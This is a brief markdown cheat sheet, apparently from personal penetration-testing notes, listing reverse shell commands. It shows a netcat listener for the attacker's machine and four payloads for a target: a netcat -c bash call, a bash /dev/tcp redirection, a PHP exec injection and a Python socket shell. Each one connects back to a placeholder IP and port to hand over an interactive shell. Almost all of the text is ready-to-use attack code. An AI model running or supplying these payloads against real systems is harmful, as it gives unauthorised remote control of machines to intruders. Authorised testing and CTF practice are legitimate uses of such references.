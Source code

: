 # Reverse shell

On host:

```bash
nc -lvnp <port>
```

General options on target:

```bash
nc <ip> <port> -c bash
```

```bash
/bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

```php
<?php exec(“/bin/bash -c ‘bash -i >& /dev/tcp/<ip>/<port> 0>&1’”); phpinfo(); ?>
```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

See [upgrade-dumb-shell](upgrade-dumb-shell.md) for upgrading.